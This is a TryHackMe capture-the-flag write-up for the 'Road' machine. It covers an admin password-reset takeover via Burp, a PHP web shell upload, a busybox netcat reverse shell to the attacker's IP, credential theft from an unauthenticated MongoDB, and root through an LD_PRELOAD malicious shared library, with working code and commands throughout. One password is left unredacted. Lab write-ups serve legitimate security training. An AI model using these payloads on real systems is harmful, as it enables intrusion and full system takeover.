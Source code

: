 # Road - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Admin Account TakeOver → Upload Web shell & Revese Shell → Discover `webdeveloper` password → Privilege Escalation via `LD_PRELOAD`
-----------------------------
## Target
- Machine: `road.thm`
- Data: `2025-10-3`
- Environment: TryHackMe / CTF
-----------------------------

## Steps
1. Initial scan:

```bash
nmap -sV -sC -Pn -T4 road.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

2. Directory discovery:

```bash
gobuster dir -u http://road.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40

/assets               (Status: 301) [Size: 313]
/index.html           (Status: 200) [Size: 19607]
/phpMyAdmin           (Status: 301) [Size: 317]
/server-status        (Status: 403) [Size: 277]
/v2                   (Status: 301) [Size: 309]
```

`v2` page showing login panel
I Created new account to discovery


In `profile` page:

![showing_the_admin_account](images/Admin_Account.png)

admin account :`admin@sky.thm`



3. Admin Account Takeover :

There was a password reset page at:
`http://road.thm/v2/ResetUser.php`
Using Burp Suite, I intercepted the POST request to the password reset functionality.

I modified the username in the POST request from the current user to `admin@sky.thm`

![ScreenShot-Burp](images/Account_Take.png)

The application allowed the password change for the admin account without proper authorization checks.

successfully logged in as `admin@sky.thm` using the new password set through the manipulated request.

4. Web Shell Upload

if we take a look at the source code of the `porfile.php` page we notice :
```html
<!-- /v2/profileimages/ -->
```
the loction of the directory that hold the profile images:
`http://road.thm/v2/profileimages/`

We can upload php files too. 

Uploaded `cmd.php` web shell containing:
```php
<?php system($_GET['cmd']); ?>
```
This allows remote command execution via the cmd parameter, enabling full system control through the web server.

Tested the web shell by accessing:
`http://road.thm/v2/profileimages/cmd.php?cmd=id`
![Web-Shell](images/cmd-test.png)

The command execution was successful, confirming remote code execution capability through the uploaded web shell.

5. Reverse Shell

Accessed the web shell to execute a reverse shell command:
`http://road.thm/v2/profileimages/cmd.php?cmd=busybox nc [YOUR_IP] 4444 -e bash `


Successful Connection & Shell Stabilization:
```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...


python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sky:/var/www/html/v2/profileimages$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
Successfully obtained a reverse shell as `www-data` user, establishing initial access on the target system.

## User flag

Now we escalate to the `webdeveloper` user

Let's see what files belong to this user: 

```bash
www-data@sky:/var/www/html/phpMyAdmin$ find / -type f -user webdeveloper 2>/dev/null 
/home/webdeveloper/.bashrc
/home/webdeveloper/.mysql_history
/home/webdeveloper/.sudo_as_admin_successful
/home/webdeveloper/.bash_logout
/home/webdeveloper/.profile
/home/webdeveloper/user.txt
/usr/bin/mongoimport
/usr/bin/mongostat
/usr/bin/mongofiles
/usr/bin/mongorestore
/usr/bin/mongodump
/usr/bin/bsondump
/usr/bin/mongotop
/usr/bin/mongoexport
/usr/share/doc/mongodb-database-tools/README.md
/usr/share/doc/mongodb-database-tools/LICENSE.md
/usr/share/doc/mongodb-database-tools/THIRD-PARTY-NOTICES
```


We can access MongoDB without authentication:
```bash

mongo

>show dbs
> show dbs

admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB


> use backup
ususe backup
switched to db backup

> show tables
shshow tables
collection
user

> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "[REDACTED]!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }

> exit
```
We found `webdeveloper's` password in the MongoDB database: `[REDACTED]!@#`

Switch to the `webdeveloper` user and retrieve the user flag:

```bash
su webdeveloper
Password: BahamasChapp123!@#

webdeveloper@sky:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Root flag

Privilege Escalation

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
webdeveloper@sky:~$ ls -la /usr/bin/sky_backup_utility
-rwxr-xr-x 1 root root 16704 Aug  7  2021 /usr/bin/sky_backup_utility
```
The user can run /usr/bin/sky_backup_utility as root with `LD_PRELOAD` environment variable preserved, allowing library injection attacks.

### SUID PATH Environmental Variable :

We create a malicious shared library that contains code executed automatically when loaded via `LD_PRELOAD`:

1. Create Malicious Shared Library :

```bash
cat > shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
EOF
```

2. Compile the Library :

```bash
gcc -fPIC -shared -nostartfiles -o shell.so shell.c
```
3. Execute the Exploit :

```bash

sudo LD_PRELOAD=./shell.so /usr/bin/sky_backup_utility

id

# uid=0(root) gid=0(root) groups=0(root)
```
4. root.txt

```bash
cat /root/root.txt 

# [REDACTED]


```
